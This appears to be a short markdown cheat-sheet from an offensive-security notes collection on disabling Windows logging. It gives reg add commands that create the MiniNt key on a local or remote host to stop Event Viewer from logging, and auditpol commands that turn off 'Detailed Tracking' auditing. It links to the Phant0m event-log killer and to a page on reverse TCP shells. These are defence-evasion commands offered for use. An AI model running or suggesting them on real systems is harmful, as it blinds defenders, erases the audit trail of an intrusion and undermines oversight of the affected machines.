 # Disable Logs

- Suspend Event Viewer from generating logs

```
C:\> reg add "[\\<IP>\]hklm\system\currentcontrolset\control\MiniNt"

C:\> reg add "[\\<IP>\]hkey_local_machine\system\currentcontrolset\control\MiniNt"
```

```
C:\> auditpol /get /category:"Detailed Tracking"

C:\> auditpol /set /category:"Detailed Tracking" /success:disable /failure:disable

C:\> auditpol /set /category:"Detailed Tracking" /success:enable /failure:enable
```

---
## References

- [Phant0m](https://github.com/hlldz/Phant0m)

- [CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)